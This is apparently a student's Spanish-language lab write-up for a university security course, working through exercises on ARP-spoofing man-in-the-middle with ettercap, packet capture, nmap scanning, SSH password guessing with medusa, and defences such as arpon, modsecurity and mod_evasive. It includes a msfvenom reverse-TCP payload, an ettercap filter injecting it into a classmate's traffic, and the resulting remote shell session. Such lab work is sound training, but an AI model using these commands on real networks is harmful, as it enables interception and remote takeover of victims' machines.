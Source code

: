 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>

1. Vaciamos arp : 
```console
root@debian:/home/lsi# ip -s -s neigh flush all
10.11.49.104 dev ens33 lladdr 00:50:56:97:10:6b  used 486/546/486probes 0 STALE 
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 3/0/3probes 1 REACHABLE 
10.11.48.183 dev ens33 lladdr 00:50:56:97:eb:ac  ref 1 used 17/17/17probes 1 REACHABLE 

*** Round 1, deleting 3 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 2, deleting 1 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 3, deleting 1 entries ***
10.11.48.1 dev ens33  ref 1 used 0/60/0probes 4 INCOMPLETE 

*** Round 4, deleting 1 entries ***
*** Flush is complete after 4 rounds ***

```
2. Usamos arpon para detectar :
```console
root@debian:/home/lsi# cat /etc/arpon.conf
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#

#
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10

#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59
root@debian:/home/lsi# arpon -d -i ens33 -H
root@debian:/home/lsi# Nov 07 16:18:49 [INFO] Background process is running (2491).
^C
root@debian:/home/lsi# ps -A | grep arpon
   2491 ?        00:00:00 arpon
root@debian:/home/lsi# kill 2491

```
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>

1. Escaneamos en IPv4
```console
root@debian:/home/lsi# nmap -A 10.11.48.1/24 > nmap_full.txt
```
2. Escaneapos IPv6
```console
root@debian:/home/lsi# nmap -A -6 fe80::250:56ff:fe97:d0a2 > nmap_6.txt
```
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>

```console
root@debian:/home/lsi# iftop -i ens33
```
```console
root@debian:/home/lsi# vnstat -l -i ens33
```
</details>

<details>
	<summary>l) Monitorizamos nuestra infraestructura.:</summary>

- Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.

  
- Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.

  
- Importe vía grafana el dashboard 1860.

  
- En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.

  
</details>

<details>
	<summary>m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direc attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.</summary>

 
</details>

<details>
	<summary>n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?</summary>

```console
root@debian:/home/lsi# apt install apache2
```
- ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
  Con un firewall de app web como modsecurity.
- Y si se produjese desde fuera de su segmento de red?
- ¿Cómo podría tratar de saltarse dicha protección?
</details>

<details>
	<summary>o) Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?</summary>

```console
root@debian:/home/lsi# apt install libapache2-mod-security2
```

```console
root@debian:/home/lsi# a2enmod headers
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2
```
```console
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended modsecurity.conf
root@debian:/home/lsi# nano modsecurity.conf
 ###Change SecRuleEngine from DetectionOnly to On
root@debian:/home/lsi# cp modsecurity.conf /etc/modsecurity/modsecurity.conf
```

```console
root@debian:/home/lsi# apt install libapache2-mod-evasive
root@debian:/home/lsi# a2enmod evasive
root@debian:/home/lsi# cat /etc/apache2/mods-enabled/evasive.conf 
<IfModule mod_evasive20.c>
    #DOSHashTableSize    3097
    #DOSPageCount        2
    #DOSSiteCount        50
    #DOSPageInterval     1
    #DOSSiteInterval     1
    #DOSBlockingPeriod   10

    #DOSEmailNotify      you@yourdomain.com
    #DOSSystemCommand    "su - someuser -c '/sbin/... %s ...'"
    #DOSLogDir           "/var/log/mod_evasive"
</IfModule>

```
 
</details>
<details>
	<summary> p) Buscamos información.: </summary>

- Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña

- Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.

- ¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?.

- En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.

- ¿Qué gestor de contenidos se utiliza en www.usc.es?

</details>
<details>
	<summary> q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.</summary>
 
```console
root@debian:/home/lsi# nmap -A 10.11.48.0/23 > nmap_full.txt
```
</details>
<details>
	<summary> r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.</summary>

```console
root@debian:/home/lsi# medusa -h 10.11.48.183 -u lsi -P pwd.text -M ssh
```

</details>

<details>
	<summary>s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.</summary>

 
</details>
<details>
	<summary>t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.</summary>
	
</details>

Defensa : 
- Tirar abajo servidor web del compañero.
-  Levantar cosas para protegernos de sus ataques
-  slowlories
-  slowget
-  Visualizar las URL del compañero
-  fichero pcap : uno propio y uno del compañero.
-  Metasploit
-  ett.filter
-  Information gethering : direccionamiento, transferencia de zona.
-  Prometeus.  grafana : Dashboard.
-  OSSEC. (Bajar timeouts a 120s)
-  arpon
